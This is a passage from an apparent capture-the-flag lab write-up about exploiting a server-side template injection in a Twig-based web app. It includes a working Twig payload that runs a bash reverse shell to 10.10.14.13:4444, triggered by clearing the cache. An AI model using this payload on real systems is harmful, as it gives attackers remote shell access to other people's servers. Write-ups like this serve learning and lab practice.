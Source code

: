 <figure><img src="../../../.gitbook/assets/image (582).png" alt=""><figcaption></figcaption></figure>

The page seems to use Twig templates to display the webpages:

<figure><img src="../../../.gitbook/assets/image (798).png" alt=""><figcaption></figcaption></figure>

This means that we can probably execute code using SSTI via Twig templates. I added this one liner to the script and saved the changes.

```
{{['bash -c "bash -i >& /dev/tcp/10.10.14.13/4444 0>&1"']|filter('system')}}
```

Then, we need to head to Maintenance > Clear Cache, and reload the main page afterwards. Our listener port would catch a reverse shell.

<figure><img src="../../../.gitbook/assets/image (1979).png" alt=""><figcaption></figcaption></figure>
